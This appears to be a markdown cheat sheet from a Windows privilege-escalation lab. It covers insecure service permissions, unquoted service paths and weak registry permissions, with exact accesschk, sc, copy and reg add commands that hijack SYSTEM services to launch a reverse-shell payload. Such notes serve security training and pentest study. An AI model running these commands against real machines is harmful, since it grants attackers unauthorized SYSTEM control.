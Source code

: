 ## Service Escalation: Insecure Service Permissions
- Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:
	- `C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`
- Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).
- Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):
	- `sc qc daclsvc`
- Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:
- `sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`
- Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
	- `net start daclsvc`
	
## Service Escalation: Unquoted Service Paths
- If you have a service executable which path is not enclosed quotations and contains a space, we can escalate a privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is).
- Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.
	- `sc qc unquotedsvc`
- Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:
	- `C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`
- Copy the reverse.exe executable you created to this directory and rename it Common.exe:
	- `copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`
- Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
	- `net start unquotedsvc`
- Or,
- Detection
	- PowerUp
		- `...\PowerUp.ps1`
		- `Invoke-AllChecks`
- Create a malicious exe file and deliver to windows.
- Name the exe file as the same where the space if found on the service path and mv exe file.
- Example, if the path is `C:\Program File\Unquoted Path\Common Path\testservice.exe`
- We should name the malicious payload with Common.exe and move it under Coomon Path directory.
- Start the service: `sc start unquotedsvc`
- More Info: https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/
- Even More on: https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae

## Service Escalation: Weak Registry Permission
- Detection
	- Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
		- `sc qc regsvc`
	- Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):
		- `C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`
	- Or,
	- Open powershell prompt and type: `Get-Acl hklm:\System\CurrentControlSet\services\regsvc | fl`
	- Notice that the output suggests that user belong to "NT AUTHORITY\INTERACTIVE" has "FullControl" permission over the registry key.
	- If Authenticated Users or NT AUTHORITY/INTERACTIVE have FullControl in any of the services, in that case, you can change the binary that is going to be executed by the service.
- Exploitation
	- Modify the `ImagePath` key of the registry to your payload path and restart the service.
		- ` reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\Temp\shell.exe /f`
	- `sc start regsvc`